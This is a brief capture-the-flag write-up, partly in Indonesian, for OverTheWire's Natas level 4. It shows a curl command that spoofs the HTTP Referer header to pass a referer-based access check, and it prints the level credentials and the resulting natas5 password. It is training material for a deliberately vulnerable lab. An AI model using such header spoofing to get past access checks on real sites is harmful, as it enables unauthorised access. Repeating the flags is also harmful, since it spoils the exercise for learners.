 ```yaml
---
layout: level
level: 4
previous: ./level 03.html
next: ./level 05.html
---
```


# soal
Username: natas4 \
URL:      http://natas4.natas.labs.overthewire.org \

# solve
- use cred natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
- use the curl, burp suite, third party extension (header editor)
  - and change the request header with 
  ```
  Referer: http://natas5.natas.labs.overthewire.org/
  # gunakan / akhir karena ketika saya coba tanpa / tidak bisa
  ```
- jika menggunakan curl
```bash
curl http://natas4.natas.labs.overthewire.org -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/"
# Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
```

## HTTP Referer
- Referer: <url>
- dalah salah satu header HTTP yang digunakan untuk memberi tahu server dari mana asal pengguna sebelum mengakses halaman tertentu. Fungsinya adalah untuk memberi konteks kepada server tentang halaman sebelumnya yang "mengacu" atau "merujuk" ke halaman saat ini.

# flag
0n35PkggAPm2zbEpOU802c0x0Msn1ToK